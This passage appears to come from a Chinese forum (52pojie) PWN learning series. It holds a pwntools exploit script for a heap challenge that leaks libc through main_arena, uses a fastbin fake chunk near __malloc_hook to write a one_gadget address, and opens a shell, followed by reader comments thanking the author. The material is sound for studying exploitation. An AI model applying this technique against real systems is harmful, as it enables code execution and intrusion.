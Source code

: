 ```
io.recvuntil('Command: ')
io.sendline('4')
io.recvuntil('Index: ')
io.sendline(str(dup))
io.recvuntil('Content: \n')

fd = u64(io.recv(6).ljust(8,b'\x00'))
main_arena = fd-0x58
success("Main Arena's Address is "+hex(main_arena))

malloc_hook = main_arena-0x10
libc = LibcSearcher('__malloc_hook',malloc_hook)
libc_base = malloc_hook - libc.dump('__malloc_hook')
system = libc_base + libc.dump('system')
success("System's Address: "+hex(system))
one = libc_base +0x4526a
success("One Gadget's Address: "+hex(one))

# get shell
chunk_E = malloc(0x68)
chunk_eF = malloc(0x38)
chunk_F = malloc(0x68)
free(chunk_E)
free(chunk_F)

payload = b'\x00'*0x38 + p64(0x71) + p64(malloc_hook-0x23)
# find_fake_fast
fill(chunk_eF,len(payload),payload)

malloc(0x68)
chunk = malloc(0x68)
fill(chunk,0x1b,b'\x00'*0x13 + p64(one))
malloc(0x8)

io.interactive()

``` ![](https://avatar.52pojie.cn/data/avatar/001/57/34/12_avatar_middle.jpg)

> [Hmily 发表于 2021-6-30 15:59](https://www.52pojie.cn/forum.php?mod=redirect&goto=findpost&pid=39095452&ptid=1467962)  
> @呆毛王与咖喱棒 提个建议，图床实在太慢了，能否把这个系列文章的图片上传本地，这样打开速度可以快一些。

小水管服务器确实有点慢 &#129315;，我看看这两天传一下![](https://avatar.52pojie.cn/data/avatar/000/00/00/01_avatar_middle.jpg)呆毛王与咖喱棒 [@呆毛王与咖喱棒](https://www.52pojie.cn/home.php?mod=space&uid=1573412) 提个建议，图床实在太慢了，能否把这个系列文章的图片上传本地，这样打开速度可以快一些。 ![](https://www.52pojie.cn/uc_server/images/noavatar_middle.gif) 很详细的学习资源，支持。![](https://www.52pojie.cn/uc_server/images/noavatar_middle.gif)Hmily 很详细的学习资源，支持。很详细的学习资源，支持。![](https://www.52pojie.cn/uc_server/images/noavatar_middle.gif)  
很详细的学习资源，支持。很详细的学习资源，支持。![](https://www.52pojie.cn/uc_server/images/noavatar_middle.gif)tbloy 谢谢大佬分享！！！![](https://www.52pojie.cn/uc_server/images/noavatar_middle.gif)拼搏的南瓜 谢啦哈哈哈！![](https://www.52pojie.cn/uc_server/images/noavatar_middle.gif)chinasniu  
谢谢大佬分享![](https://static.52pojie.cn/static/image/smiley/default/17.gif) ![](https://avatar.52pojie.cn/data/avatar/000/20/15/05_avatar_middle.jpg) iFengZhiwei 来跟咖喱棒学 PWN![](https://static.52pojie.cn/static/image/smiley/laohu/laohu39.gif)